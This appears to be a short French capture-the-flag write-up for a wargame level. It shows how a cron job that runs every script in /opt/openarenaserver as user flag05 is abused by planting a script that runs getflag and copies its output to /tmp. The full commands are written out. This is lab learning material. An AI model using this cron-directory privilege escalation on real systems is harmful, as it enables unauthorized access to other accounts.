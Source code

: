 Le dossier de l'utilisateur level05 est vide, on a donc fait une recherche d'un fichier/dossier nommé level05.
`find / -name "level05" 2>/dev/null`

On trouve les résultats suivants (qui sont les mêmes fichiers)
```txt
/var/mail/level05
/rofs/var/mail/level05
```

Le contenu est une tâche cron
`*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05`
Le code executé toutes les 2 minutes contenu dans `/usr/sbin/openarenaserver` execute tous les scripts dans `/opt/openarenaserver/*`.

On peut donc créer un fichier qui executera getflag dans ce répertoire, et mettra le résultat dans un dossier ou flag05 et level05 peuvent accéder.
`echo 'getflag > /tmp/flag05; chmod +rw /tmp/flag05' > /opt/openarenaserver/crackflag`
`chmod +x /opt/openarenaserver/crackflag`
